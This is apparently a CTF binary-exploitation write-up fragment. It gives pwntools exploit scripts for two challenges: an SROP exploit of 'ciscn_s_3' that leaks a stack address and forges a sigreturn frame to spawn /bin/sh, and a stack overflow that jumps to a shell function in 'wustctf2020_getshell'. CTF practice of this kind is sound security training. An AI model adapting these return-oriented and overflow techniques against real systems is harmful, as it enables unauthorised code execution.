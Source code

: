 #### srop
```python
from pwn import *

#context.log_level = 'debug'

context.arch = 'amd64'

p = process('./ciscn_s_3')
#p = remote("node5.buuoj.cn",28047)

mov_rax_15 = 0x4004DA
mov_rax_59 = 0x4004e3
mov_addr = 0x400580
pop_addr = 0x40059A
syscall = 0x400517
vuln = 0x4004ed
ret = 0x400538
pop_rdi = 0x4005a3

#gdb.attach(p)

payload1 = b'A'*16
payload1+= p64(vuln)
p.send(payload1)

#print(p.recv())

p.recv(32)
leak=u64(p.recv(8))
print(hex(leak))
binsh = leak - 0x118

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = binsh
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall

payload2 = b'/bin/sh\x00'.ljust(16,b'A') + p64(mov_rax_15) + p64(syscall) + bytes(sigframe)
p.sendline(payload2)

p.interactive()
```

## ez_pz_hackover_2016

## wustctf2020_getshell
### exp
```python
from pwn import *

#p = process("./wustctf2020_getshell")
p = remote("node5.buuoj.cn",25919)

shell = 0x0804851B
payload = b'A'*28 + p32(shell)

p.send(payload)
p.interactive()
```